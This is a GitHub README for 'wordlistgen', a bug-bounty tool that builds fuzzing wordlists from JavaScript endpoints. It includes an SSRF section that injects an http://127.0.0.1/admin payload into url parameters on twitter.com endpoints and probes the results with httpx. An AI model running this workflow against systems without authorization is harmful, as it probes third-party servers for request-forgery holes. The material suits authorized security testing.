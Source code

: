 # wordlistgen
Generates target specific word lists by searching for endpoints in javascript and appends parameters for Fuzzing with other tools

**Version 1.0**


### Install

**`$ go get -u github.com/ethicalhackingplayground/wordlistgen`**

**`$ go get github.com/003random/getJS`**


![GitHub Logo](carbon1.png)


### Generate wordlist
**`$ echo "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "https://www.twitter.com"`**

![GitHub Logo](carbon2.png)

The use ffuf


**Then get creative with FFuF or https://github.com/tomnomnom/qsreplace**

****
### SSRF TIP2:


#### Generate Wordlist
**`$ cat <Resolved-Domains> | getJS -complete | ./wordlistgen -p params.txt -d <Un-Resolved> | tee wordlist`**

**`$ cat "https://www.twitter.com" | getJS -complete | ./wordlistgen -p params.txt -d "www.twitter.com" | tee wordlist`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=FUZZ
www.twitter.com/v/latest/72x72//?url=FUZZ
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=FUZZ
www.twitter.com/articles/18311/?url=FUZZ
```

###### You can also use `-dL` to load a list of subdomains like:
**`$ cat <Resolved-Domains> | getJS -complete | ./wordlistgen -p params.txt -dL <Un-Resolved> | tee wordlist`**


##### Replace Variables with Payload
**`$ cat wordlist | qsreplace http://127.0.0.1/admin | tee -a hosts`**

```
OUTPUT:

www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/polyfills.525f28f5.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/v/latest/72x72//?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/responsive-web-internal/sourcemaps/client-web-legacy/en.363b7e25.js.map/?url=http%3A%2F%2F127.0.0.1%2Fadmin
www.twitter.com/articles/18311/?url=http%3A%2F%2F127.0.0.1%2Fadmin
```

#### Use HTTPX to keep track of the codes,titles
**`$ cat hosts | httpx -title -status-code`**

#### I hope you get a bounty with this technique.
****


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
